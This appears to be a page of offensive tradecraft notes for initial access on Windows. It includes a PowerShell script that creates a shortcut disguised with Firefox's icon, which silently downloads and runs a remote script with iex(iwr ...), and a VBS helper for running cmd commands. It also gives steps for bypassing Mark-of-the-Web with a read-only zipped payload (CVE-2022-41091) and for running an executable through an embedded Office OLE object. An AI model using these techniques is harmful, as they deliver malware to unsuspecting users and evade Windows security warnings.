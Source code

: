 ### LNK
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$shortcut = $WshShell.CreateShortcut("C:\Users\REUSER\Desktop\firefoxx.lnk")
$shortcut.TargetPath = "powershell.exe"
$shortcut.Description = "Totally Notmal"
$shortcut.HotKey = "F6"
$shortcut.IconLocation = "C:\Program Files\Mozilla Firefox\firefox.exe"
$shortcut.Arguments = "-windowstyle hidden iex(iwr -usebasicparsing http://example.com/notmal.ps1)"
$shortcut.save()
```

### VBS
```vb
REM@usage
' Put the full or mini class/sub/function in your script to use.
Function production(p):Dim w,e,r,o:Set w=CreateObject("WScript.Shell"):Set e=w.Exec("CmD"):e.StdIn.WriteLine p&" 2>&1":e.StdIn.Close:While(InStr(e.StdOut.ReadLine,">"&p)=0)::Wend:Do:o=e.StdOut.ReadLine:If(e.StdOut.AtEndOfStream)Then:Exit Do:Else:r=r&o&vbLf:End If:Loop:production=r:End Function

' returns the result of whatever command you run
production( "rundll32 printui.dll,PrintUIEntry /p /n\\192.168.86.201\printer" )
```

# Bypassing MOTW

### ZippyReads (CVE-2022-41091)
This is the technique discovered by [Will Dormann](https://twitter.com/wdormann). However, since this has been asssigned as a CVE, note that this have been patched in new windows releases. 
1. Set your payloads to *read-only* permission.
```
attrib +r file.exe
```
![](Pasted%20image%2020221116085831.png)
2. Zip the file with any zip utility that you prefer. In this case, i'll normally use native zip utility on windows to zip the file.

**References**
- https://twitter.com/wdormann/status/1590044005395357697?s=20&t=6DFV1gLeBZvd-grQawp87A

# Bypassing Policy

### Executing EXE with oleObject
1. Click on *Insert Object* and choose your binary under *Create from file* option.
![](Pasted%20image%2020221201224938.png)
2. Double clicking on the object will prompt this prompt. Click on Run and cmd should appears.
![](Pasted%20image%2020221201225040.png)
